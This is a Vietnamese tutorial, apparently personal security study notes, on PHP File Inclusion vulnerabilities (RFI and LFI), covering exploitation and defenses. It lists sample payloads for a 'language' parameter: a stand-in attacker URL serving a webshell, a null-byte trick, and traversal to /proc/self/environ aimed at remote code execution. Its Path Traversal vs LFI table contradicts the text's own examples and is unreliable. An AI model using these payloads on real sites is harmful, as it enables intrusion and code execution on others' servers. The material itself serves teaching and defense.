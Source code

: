 # I. Khái niệm File Inclusion
* Là một kiểu tấn công thường gặp ở các web app trong quá trình ***thực thi code*** trong một file nào đó
* Lỗ hổng này xảy ra khi app có những ***đường dẫn*** tới code thực thi, mà các đường dẫn này lại ***thông qua người dùng***, làm cho kẻ tấn công có thể "điều hướng" sang các files thực thi khác

## Phân loại:
### 1. Remote File Inclusion (RFI):
* Là việc include file từ một vị trí khác server, như là từ một ***server khác***
* File này thường được tải thông qua tham số mà người dùng cung cấp tới app dưới dạng ***HTTP*** hoặc ***FTP URI***

### 2. Local File Inclusion (LFI):
* Cũng giống RFI nhưng khác ở chỗ thay vì là file ở một chỗ khác thì là những files đã có sẵn ***trong server*** 

### **Sự khác nhau giữa Path Traversal và FLI:**
| Path Traversal | LFI |
| - | - |
| Chỉ có thể include hoặc xem file trong thư mục root | Có thể xem được file ngoài thư mục root |
| Có thể thực thi được code | Không thực thi được code |

<br><br>

# II. Cơ chế khai thác (xét với PHP)
* ***Khâu kiểm duyệt input người dùng*** cho các hàm gọi tới các files để thực thi còn chưa chặt chẽ (Các hàm: include, require, include_once, require_once...)
* Trong PHP có một cái directive (hiểu nôm na là "sự chỉ dẫn"), nếu được bật, cho phép các hàm ***sử dụng URL*** để lấy data từ nơi khác
    * versions <= 4.3.4: *allow_url_fopen*
    * versions 5.2.0: *allow_url_include*
* Từ phiên bản 5.x trở đi, directive này mặc định thì bị ***vô hiệu hóa***, còn các phiên bản về trước thì vẫn được bật ***mặc định***
* Để khai thác lỗ hổng này, kẻ tấn công sẽ ***thay thế param*** truyền vào các hàm này để làm nó include code bẩn ở nơi nào đó
* Dấu hiệu nhận biết: URL có dạng .php/&lt;param>

VD: Xét đoạn PHP sau, trong đó có chứa request đến một file
<div style="display:flex; justify-content: center;">
    <img src="./src/example.png" style="width: 90%">
</div>
    
* Có thể đoán mục đích ban đầu là include các files như english.php hay french.php để hiển thị ngôn ngữ lên app
* Nhưng qua tham số *language*, ta có thể "tiêm" một số payloads có dạng như sau:
    * language=http://evil.example.com/webshell.txt?: truyền vào một file file code bẩn (RFI)
    * language=C:\\\ftp\\\upload\\\exploit: thực thi code ở file đã có sẵn trong server có tên exploit.php (LFI)
    * language=C:\\\notes.txt%00: thậm chí có thể dùng null byte để truy cập được nhiều files hơn là mỗi php (từ phiên bản 5.3 không được sử dụng nữa)
    * language=../../../../../proc/self/environ%00: đọc nội dung của /proc/self/environ. Qua đó có thể điều chỉnh HTTP header (như User-Agent) để thực hiện RCE

<br><br>

# III. Cách phòng chống
* Cần có khâu kiểm duyệt user input chặt chẽ 
    * Sử dụng whitelist
* Với các phiên bản PHP thấp, tắt allow_url_fopen và allow_url_include, hoặc cập nhật lên phiên bản PHP cao hơn

<br><br>

# Một số tools khai thác:
* fimap

<br><br>

# Tài liệu tham khảo:
* https://en.wikipedia.org/wiki/File_inclusion_vulnerability
* https://viblo.asia/p/file-inclusion-vulnerability-exploit-4P856NMa5Y3
* https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion
* RFI:
    * https://www.invicti.com/learn/remote-file-inclusion-rfi/
    * https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/#:~:text=Remote%20file%20inclusion%20(RFI)%20is,located%20within%20a%20different%20domain.
    * https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/
* LFI:
    * https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/
